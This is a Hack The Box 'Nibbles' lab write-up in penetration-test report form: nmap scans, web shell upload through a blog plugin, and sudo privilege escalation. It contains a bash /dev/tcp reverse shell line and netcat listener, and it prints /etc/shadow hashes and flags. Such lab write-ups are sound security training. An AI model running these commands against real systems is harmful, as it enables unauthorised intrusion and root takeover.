






# Hack The Box: Nibbles Report

# Methodologies

I utilized a widely adopted approach to performing penetration testing that is effective in testing how well the Nibbles machine is secured.
Below is a breakout of how I was able to identify and exploit the variety of systems and includes all individual vulnerabilities found.

## Information Gathering

The information gathering portion of a penetration test focuses on identifying the scope of the penetration test.
During this penetration test, I was tasked with exploiting the Nibbles machine.

The specific IP address was:

- 10.10.10.75

## Penetration

The penetration testing portions of the assessment focus heavily on gaining access to a variety of systems.
During this penetration test, I was able to successfully gain access to the Nibbles machine.

\newpage

### System IP: 10.10.10.75

#### Service Enumeration

The service enumeration portion of a penetration test focuses on gathering information about what services are alive on a system or systems.
This is valuable for an attacker as it provides detailed information on potential attack vectors into a system.
Understanding what applications are running on the system gives an attacker needed information before performing the actual penetration test.
In some cases, some ports may not be listed.

Server IP Address | Ports Open
------------------|----------------------------------------
10.10.10.75      | **TCP:** 22,80 \ **UDP:** 22,80

\newpage

**Nmap Scan Results:**

Service Scan:

```bash
nmap -vvv -Pn -p 80,22 -sC -sV -oN /HTB-boxes/nibbles/recon/nmap_all_tcp.md 10.10.10.75
```

Output:

```txt
PORT   STATE SERVICE REASON  VERSION
22/tcp open  ssh     syn-ack OpenSSH 7.2p2 Ubuntu 4ubuntu2.2 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 c4:f8:ad:e8:f8:04:77:de:cf:15:0d:63:0a:18:7e:49 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQD8ArTOHWzqhwcyAZWc2CmxfLmVVTwfLZf0zhCBREGCpS2WC3NhAKQ2zefCHCU8XTC8hY9ta5ocU+p7S52OGHlaG7HuA5Xlnihl1INNsMX7gpNcfQEYnyby+hjHWPLo4++fAyO/lB8NammyA13MzvJy8pxvB9gmCJhVPaFzG5yX6Ly8OIsvVDk+qVa5eLCIua1E7WGACUlmkEGljDvzOaBdogMQZ8TGBTqNZbShnFH1WsUxBtJNRtYfeeGjztKTQqqj4WD5atU8dqV/iwmTylpE7wdHZ+38ckuYL9dmUPLh4Li2ZgdY6XniVOBGthY5a2uJ2OFp2xe1WS9KvbYjJ/tH
|   256 22:8f:b1:97:bf:0f:17:08:fc:7e:2c:8f:e9:77:3a:48 (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBPiFJd2F35NPKIQxKMHrgPzVzoNHOJtTtM+zlwVfxzvcXPFFuQrOL7X6Mi9YQF9QRVJpwtmV9KAtWltmk3qm4oc=
|   256 e6:ac:27:a3:b5:a9:f1:12:3c:34:a5:5d:5b:eb:3d:e9 (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIC/RjKhT/2YPlCgFQLx+gOXhC6W3A3raTzjlXQMT8Msk
80/tcp open  http    syn-ack Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Site doesn't have a title (text/html).
| http-methods: 
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.18 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Vulnerability Scan:

```bash
nmap -vvv -Pn -p 80,22 --script vuln -oN /HTB-boxes/nibbles/recon/nmap_all_vuln.md 10.10.10.75
```

Output:

```txt
PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack
| http-slowloris-check: 
|   VULNERABLE:
|   Slowloris DOS attack
|     State: LIKELY VULNERABLE
|     IDs:  CVE:CVE-2007-6750
|       Slowloris tries to keep many connections to the target web server open and hold
|       them open as long as possible.  It accomplishes this by opening connections to
|       the target web server and sending a partial request. By doing so, it starves
|       the http server's resources causing Denial Of Service.
|       
|     Disclosure date: 2009-09-17
|     References:
|       http://ha.ckers.org/slowloris/
|_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2007-6750
|_http-jsonp-detection: Couldn't find any JSONP endpoints.
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
|_http-dombased-xss: Couldn't find any DOM based XSS.
|_http-csrf: Couldn't find any CSRF vulnerabilities.
|_http-wordpress-users: [Error] Wordpress installation was not found. We couldn't find wp-login.php
|_http-stored-xss: Couldn't find any stored XSS vulnerabilities.
```


\newpage

#### Initial Access

**Vulnerability Exploited:** Weak Credentials, File Upload, RCE

**Vulnerability Explanation:**

After quickly guessing the credentials to login to the admin control panel for the *nibbleblog* installation on *10.10.10.75*, we can see that a plugin is installed that can allow us to upload files to the site.



We will use the *My Image* plugin to upload a common pentesting tool, *phpbash*.



**Vulnerability Fix:**

Increase the strength of the admin panel login credentials.

**Severity:** Critical

\newpage

**Exploit Code:**

After uploading *phpbash*, we can visit the following url to activate the tool:

```txt
http://10.10.10.75/nibbleblog/content/private/plugins/my_image/image.php
```



Reference: *https://github.com/Arrexel/phpbash/blob/master/phpbash.php*

\newpage

**Local.txt Proof Screenshot**



**Local.txt Contents**

```txt
b55d82a44d5b70d69110e0f26d10623c
```

\newpage

#### Privilege Escalation

**Vulnerability Exploited:** Weak file permissions.

**Vulnerability Explanation:**

The user *nibbler* is able to execute a file with sudo permissions, without a password being required. The only conditions for this privilege escalation are that the file is in the */home/nibbler/personal/stuff/* directory, and is named *monitor.sh*.

**Vulnerability Fix:**

Reference: *link*

**Severity:** Critical

\newpage

**Exploit Code:**

We can accomplish this privilege escalation by following these steps:

1. Execute these commands to make sure that the directory */home/nibbler/personal/stuff/*, and *monitor.sh* exists:

```bash
mkdir /home/nibbler/personal/
mkdir /home/nibbler/personal/stuff/
touch /home/nibbler/personal/stuff/monitor.sh
```

2. Now let's change *monitor.sh* to execute a reverse shell when ran by any user.

```bash
echo "#!/bin/bash\nbash -i >& /dev/tcp/10.10.14.12/4321 0>&1" > /home/nibbler/personal/stuff/monitor.sh
```

3. On our attacker machine, we need to start a netcat listener:

```bash
nc -lvnp 4321
```

4. We can now run *monitor.sh* as the user *root*, and  execute reverse shell using the following commands:

```bash
chmod +x /home/nibbler/personal/stuff/monitor.sh
cd /home/nibbler/personal/stuff/
sudo ./monitor.sh
```

5. Looking back to our attacker machine's netcat listener, we see that we can execute commands in our new reverse shell.



\newpage

**Proof Screenshot Here:**



**Proof.txt Contents:**

```txt
cd6ce707e98594ae6f9afe0f4e65d773
```

\newpage

## Maintaining Access

Maintaining access to a system is important to us as attackers, ensuring that we can get back into a system after it has been exploited is invaluable.
The maintaining access phase of the penetration test focuses on ensuring that once the focused attack has occurred (i.e. a buffer overflow), we have administrative access over the system again.
Many exploits may only be exploitable once and we may never be able to get back into a system after we have already performed the exploit.

## House Cleaning

The house cleaning portions of the assessment ensures that remnants of the penetration test are removed.
Often fragments of tools or user accounts are left on an organization's computer which can cause security issues down the road.
Ensuring that we are meticulous and no remnants of our penetration test are left over is important.

After collecting trophies from the Nibbles machine was completed, I removed all user accounts, passwords, and malicious codes used during the penetration test.
Hack the box should not have to remove any user accounts or services from the system.

# Appendix - Additional Items

## Appendix - Proof and Local Contents:

IP (Hostname) | Local.txt Contents | Proof.txt Contents
--------------|--------------------|-------------------
10.10.10.75   |  b55d82a44d5b70d69110e0f26d10623c | cd6ce707e98594ae6f9afe0f4e65d773

\newpage

## Appendix - /etc/passwd contents

```txt
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
systemd-timesync:x:100:102:systemd Time Synchronization,,,:/run/systemd:/bin/false
systemd-network:x:101:103:systemd Network Management,,,:/run/systemd/netif:/bin/false
systemd-resolve:x:102:104:systemd Resolver,,,:/run/systemd/resolve:/bin/false
systemd-bus-proxy:x:103:105:systemd Bus Proxy,,,:/run/systemd:/bin/false
syslog:x:104:108::/home/syslog:/bin/false
_apt:x:105:65534::/nonexistent:/bin/false
lxd:x:106:65534::/var/lib/lxd/:/bin/false
messagebus:x:107:111::/var/run/dbus:/bin/false
uuidd:x:108:112::/run/uuidd:/bin/false
dnsmasq:x:109:65534:dnsmasq,,,:/var/lib/misc:/bin/false
sshd:x:110:65534::/var/run/sshd:/usr/sbin/nologin
mysql:x:111:118:MySQL Server,,,:/nonexistent:/bin/false
nibbler:x:1001:1001::/home/nibbler:
```

\newpage

## Appendix - /etc/shadow contents

```txt
root:$6$DewMP6p.$vV1WdlCbgZJkOM98Qw7Dur.A.4YOq910laHkQZu/uMuomOjKntzg5GSsl8pYT0qtW9I.YMkr3HBC0Sw/s3TKq0:17511:0:99999:7:::
daemon:*:17001:0:99999:7:::
bin:*:17001:0:99999:7:::
sys:*:17001:0:99999:7:::
sync:*:17001:0:99999:7:::
games:*:17001:0:99999:7:::
man:*:17001:0:99999:7:::
lp:*:17001:0:99999:7:::
mail:*:17001:0:99999:7:::
news:*:17001:0:99999:7:::
uucp:*:17001:0:99999:7:::
proxy:*:17001:0:99999:7:::
www-data:*:17001:0:99999:7:::
backup:*:17001:0:99999:7:::
list:*:17001:0:99999:7:::
irc:*:17001:0:99999:7:::
gnats:*:17001:0:99999:7:::
nobody:*:17001:0:99999:7:::
systemd-timesync:*:17001:0:99999:7:::
systemd-network:*:17001:0:99999:7:::
systemd-resolve:*:17001:0:99999:7:::
systemd-bus-proxy:*:17001:0:99999:7:::
syslog:*:17001:0:99999:7:::
_apt:*:17001:0:99999:7:::
lxd:*:17431:0:99999:7:::
messagebus:*:17431:0:99999:7:::
uuidd:*:17431:0:99999:7:::
dnsmasq:*:17431:0:99999:7:::
sshd:*:17431:0:99999:7:::
mysql:!:17510:0:99999:7:::
nibbler:$6$X3A8Ojo1$ZixRGB1HEQv552mnnJALZ6hOStYqqJuMoUsFipTFJl22OBupNaqGluyidsq4bZ2oBxr2YH/p4.v/ZaMosY4jZ/:17511:0:99999:7:::
```